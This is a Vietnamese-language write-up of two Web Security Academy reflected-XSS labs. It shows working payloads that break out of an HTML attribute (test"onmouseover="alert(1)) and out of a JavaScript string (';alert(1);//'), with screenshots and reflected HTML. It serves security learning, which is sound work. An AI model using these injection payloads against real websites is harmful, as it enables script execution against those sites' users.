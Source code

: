 # XSS 

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

Sau khi tìm kiếm một giá trị ngẫu nhiên trên trang web ta thấy nó được reflected vào trong thuộc tính 
![image](https://user-images.githubusercontent.com/68894302/170344608-2a4a5dcb-b9df-4479-965e-0de164ade5f0.png)

**Description**
> This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.

**Explanation**
Không thể sử dụng thẻ html vì bị encode do đó sử dụng trình sự kiện để thực hiện việc XSS
```
https://accf1f0a1ec2890fc01a2f5e00fd00f4.web-security-academy.net/?search=%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
Thấy một số thẻ bị encode url 
```
<input type="text" placeholder="Search the blog..." name="search" value="" &lt;script&gt;alert(1)&lt;="" script&gt;"="">
```
Nếu nhập vào `x"` nó sẽ trở thành
```
<input type="text" placeholder="Search the blog..." name="search" value="x" "="">
```
Bypass bằng cách sử dụng dấu `"` để đóng giá trị `value` và sử dụng trình sự kiện `onmouseover` để thực thi hàm alert. Khi con trỏ trỏ lại vị trí tìm kiếm thì popup sẽ được bật lên
Payload:
```
test"onmouseover="alert(1)
```
![image](https://user-images.githubusercontent.com/68894302/170353058-e061cf18-95ea-48cc-92a7-d48a19a09183.png)

----

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

Ở challenge này chúng ta thấy khi tìm kiếm 1 giá trị bất kì thì giá trị đó được lưu vào đoạn code javascript sau
![image](https://user-images.githubusercontent.com/68894302/170521772-051696f6-17a8-4aa4-a0fd-70389ecc33f5.png)

Dùng dấu nháy đơn để escape ra khỏi đó và dấu `;` để kết thúc 1 câu trong javascrip. Payload để thực thi đoạn mã javascript như sau
```
';alert(1);//'
```
![image](https://user-images.githubusercontent.com/68894302/170524018-9ed0b1ca-351b-4ac3-b9f7-1fe1d979cb86.png)
